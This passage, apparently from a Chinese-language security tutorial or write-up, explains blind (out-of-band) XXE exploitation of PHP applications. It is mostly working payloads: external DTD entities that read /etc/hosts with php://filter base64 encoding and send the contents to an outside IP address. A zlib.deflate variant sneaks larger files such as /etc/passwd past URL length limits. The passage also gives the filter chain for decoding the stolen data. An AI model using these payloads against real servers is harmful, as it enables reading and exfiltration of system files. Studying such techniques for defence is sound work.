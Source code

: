 ```dtd
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/hosts">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://112.74.35.205/?p=%file;'>">
```

![](https://ws1.sinaimg.cn/large/006Vib6xly1fpxhpg7shgj30ic026753.jpg)

在上面的payload中，如果要改变读取的文件，还需要修改dtd文件，很麻烦

为了方便，我们可以使用如下payload：

```xml
<!DOCTYPE root[
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/hosts">
<!ENTITY % dtd SYSTEM "http://112.74.35.205/XXE/file.dtd">
%dtd;
%send;
]>
```

file.dtd:

```dtd
<!ENTITY % payload "<!ENTITY &#x25; send SYSTEM 'http://112.74.35.205/?p=%file;'>">
%payload;
```

成功读取到文件内容

![](https://ws1.sinaimg.cn/large/006Vib6xly1fpznt3e2f5j30ib029dgn.jpg)

这里需要注意一个问题，`/etc/hosts`文件较小，所以可以直接利用get回显，但是如果是`/etc/passwd`这样比较大的文件，dtd声明中定义外部实体时，对url有长度限制，我们就需要利用`zlib.deflate`来帮助我们压缩，从而得以从get中获取文件内容

payload：

```xml
<!DOCTYPE root[
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/convert.base64-encode/resource=/etc/hosts">
<!ENTITY % dtd SYSTEM "http://112.74.35.205/XXE/file.dtd">
%dtd;
%send;
]>
```

![](https://ws1.sinaimg.cn/large/006Vib6xly1fpxhco13oqj30i405wjtz.jpg)

我们将内容复制下来保存到一个文件`1.txt`中，然后使用`base64`解码再加上`zlib.inflate`解压即可

```
php://filter/read=convert.base64-decode/zlib.inflate/resource=1.txt
```

用之前的文件上传漏洞的后段代码读取一下

![](https://ws1.sinaimg.cn/large/006Vib6xly1fpxl3mqtamj30zg08djuq.jpg)

当然我们还可以弄一个直接接收文件的php

